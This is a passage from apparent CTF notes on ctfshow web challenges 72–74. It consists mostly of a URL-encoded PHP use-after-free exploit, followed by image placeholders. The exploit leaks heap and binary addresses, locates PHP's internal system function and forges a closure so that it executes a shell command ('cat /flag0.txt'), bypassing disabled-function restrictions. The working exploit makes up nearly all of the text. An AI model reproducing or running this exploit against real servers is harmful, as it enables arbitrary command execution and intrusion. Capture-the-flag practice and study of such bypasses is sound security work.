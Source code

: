 ```
0%20if(%24deref%20!%3D%200x786568326e6962)%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20continue%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%20else%20continue%3B%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20return%20%24data_addr%20%2B%20%24i%20*%208%3B%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20get_binary_base(%24binary_leak)%20%7B%0A%20%20%20%20%20%20%20%20%24base%20%3D%200%3B%0A%20%20%20%20%20%20%20%20%24start%20%3D%20%24binary_leak%20%26%200xfffffffffffff000%3B%0A%20%20%20%20%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%200x1000%3B%20%24i%2B%2B)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24addr%20%3D%20%24start%20-%200x1000%20*%20%24i%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24leak%20%3D%20leak(%24addr%2C%200%2C%207)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20if(%24leak%20%3D%3D%200x10102464c457f)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20return%20%24addr%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20get_system(%24basic_funcs)%20%7B%0A%20%20%20%20%20%20%20%20%24addr%20%3D%20%24basic_funcs%3B%0A%20%20%20%20%20%20%20%20do%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24f_entry%20%3D%20leak(%24addr)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24f_name%20%3D%20leak(%24f_entry%2C%200%2C%206)%3B%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20if(%24f_name%20%3D%3D%200x6d6574737973)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20return%20leak(%24addr%20%2B%208)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%24addr%20%2B%3D%200x20%3B%0A%20%20%20%20%20%20%20%20%7D%20while(%24f_entry%20!%3D%200)%3B%0A%20%20%20%20%20%20%20%20return%20false%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20trigger_uaf(%24arg)%20%7B%0A%0A%20%20%20%20%20%20%20%20%24arg%20%3D%20str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA')%3B%0A%20%20%20%20%20%20%20%20%24vuln%20%3D%20new%20Vuln()%3B%0A%20%20%20%20%20%20%20%20%24vuln-%3Ea%20%3D%20%24arg%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20if(stristr(PHP_OS%2C%20'WIN'))%20%7B%0A%20%20%20%20%20%20%20%20die('This%20PoC%20is%20for%20*nix%20systems%20only.')%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20%24n_alloc%20%3D%2010%3B%20%0A%20%20%20%20%24contiguous%20%3D%20%5B%5D%3B%0A%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%20%24n_alloc%3B%20%24i%2B%2B)%0A%20%20%20%20%20%20%20%20%24contiguous%5B%5D%20%3D%20str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA')%3B%0A%0A%20%20%20%20trigger_uaf('x')%3B%0A%20%20%20%20%24abc%20%3D%20%24backtrace%5B1%5D%5B'args'%5D%5B0%5D%3B%0A%0A%20%20%20%20%24helper%20%3D%20new%20Helper%3B%0A%20%20%20%20%24helper-%3Eb%20%3D%20function%20(%24x)%20%7B%20%7D%3B%0A%0A%20%20%20%20if(strlen(%24abc)%20%3D%3D%2079%20%7C%7C%20strlen(%24abc)%20%3D%3D%200)%20%7B%0A%20%20%20%20%20%20%20%20die(%22UAF%20failed%22)%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20%24closure_handlers%20%3D%20str2ptr(%24abc%2C%200)%3B%0A%20%20%20%20%24php_heap%20%3D%20str2ptr(%24abc%2C%200x58)%3B%0A%20%20%20%20%24abc_addr%20%3D%20%24php_heap%20-%200xc8%3B%0A%0A%20%20%20%20write(%24abc%2C%200x60%2C%202)%3B%0A%20%20%20%20write(%24abc%2C%200x70%2C%206)%3B%0A%0A%20%20%20%20write(%24abc%2C%200x10%2C%20%24abc_addr%20%2B%200x60)%3B%0A%20%20%20%20write(%24abc%2C%200x18%2C%200xa)%3B%0A%0A%20%20%20%20%24closure_obj%20%3D%20str2ptr(%24abc%2C%200x20)%3B%0A%0A%20%20%20%20%24binary_leak%20%3D%20leak(%24closure_handlers%2C%208)%3B%0A%20%20%20%20if(!(%24base%20%3D%20get_binary_base(%24binary_leak)))%20%7B%0A%20%20%20%20%20%20%20%20die(%22Couldn't%20determine%20binary%20base%20address%22)%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20if(!(%24elf%20%3D%20parse_elf(%24base)))%20%7B%0A%20%20%20%20%20%20%20%20die(%22Couldn't%20parse%20ELF%20header%22)%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20if(!(%24basic_funcs%20%3D%20get_basic_funcs(%24base%2C%20%24elf)))%20%7B%0A%20%20%20%20%20%20%20%20die(%22Couldn't%20get%20basic_functions%20address%22)%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20if(!(%24zif_system%20%3D%20get_system(%24basic_funcs)))%20%7B%0A%20%20%20%20%20%20%20%20die(%22Couldn't%20get%20zif_system%20address%22)%3B%0A%20%20%20%20%7D%0A%0A%0A%20%20%20%20%24fake_obj_offset%20%3D%200xd0%3B%0A%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%200x110%3B%20%24i%20%2B%3D%208)%20%7B%0A%20%20%20%20%20%20%20%20write(%24abc%2C%20%24fake_obj_offset%20%2B%20%24i%2C%20leak(%24closure_obj%2C%20%24i))%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20write(%24abc%2C%200x20%2C%20%24abc_addr%20%2B%20%24fake_obj_offset)%3B%0A%20%20%20%20write(%24abc%2C%200xd0%20%2B%200x38%2C%201%2C%204)%3B%20%0A%20%20%20%20write(%24abc%2C%200xd0%20%2B%200x68%2C%20%24zif_system)%3B%20%0A%0A%20%20%20%20(%24helper-%3Eb)(%24cmd)%3B%0A%20%20%20%20exit()%3B%0A%7D%0A%0Actfshow(%22cat%20%2Fflag0.txt%22)%3Bob_end_flush()%3B%0A%3F%3E%0A
```
![[Pasted image 20240922213235.png]]
# Web 73
![[Pasted image 20240924221102.png]]![[Pasted image 20240924221329.png]]
# Web 74
![[Pasted image 20240924222049.png]]
![[Pasted image 20240924222149.png]]